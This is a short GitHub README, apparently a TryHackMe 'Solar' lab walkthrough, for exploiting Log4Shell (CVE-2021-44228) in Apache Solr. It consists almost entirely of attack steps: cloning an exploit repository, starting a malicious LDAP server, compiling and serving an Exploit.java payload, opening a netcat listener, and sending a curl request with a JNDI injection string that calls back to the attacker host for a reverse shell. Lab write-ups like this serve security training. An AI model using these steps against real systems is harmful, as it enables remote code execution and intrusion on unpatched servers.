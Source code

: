 # exploiting log4j CVE-2021-44228 ( TryHackMe Solar, Walkthrough)

```
git clone https://github.com/1nf1n17yk1ng/log4j.git 

```

## 1. run log4j.py (This whill install all the nessasary files and start the LDAP server)

```
ifconfig tun0
python3 log4j.py 10.8.227.251

```

![image](https://user-images.githubusercontent.com/66146701/146671807-61ee758c-586b-4d45-9d50-34e7e6c4fa04.png)


## 2. Add attacker IP to Exploit.java file


![2021-12-19_00-52](https://user-images.githubusercontent.com/66146701/146672140-a1e70a73-1c3b-4e1b-a5c5-aeebf4def563.png)


## 3. Compile payload

```
javac Exploit.java -source 8 -target 8

```
![image](https://user-images.githubusercontent.com/66146701/146672281-b07fda17-a0a6-473d-8e15-bc717144d184.png)

## 4. temporary HTTP server

```
python3 -m http.server

```
![image](https://user-images.githubusercontent.com/66146701/146672342-69d18b1e-e605-4906-8ee9-51868033fb6e.png)


## 5. netcat listener

```
nc -lnvp 9999

```

![image](https://user-images.githubusercontent.com/66146701/146672355-780ef25c-b3b6-4e5a-8480-ba091b95a876.png)


## 6. Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.45.175:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.227.251:1389/Exploit\}'

```

![image](https://user-images.githubusercontent.com/66146701/146672401-33233c9c-6d91-4923-96b0-fcf3b458e5db.png)


![image](https://user-images.githubusercontent.com/66146701/146672408-cbed5a01-ff4a-4cab-81e5-8704d7674a5d.png)


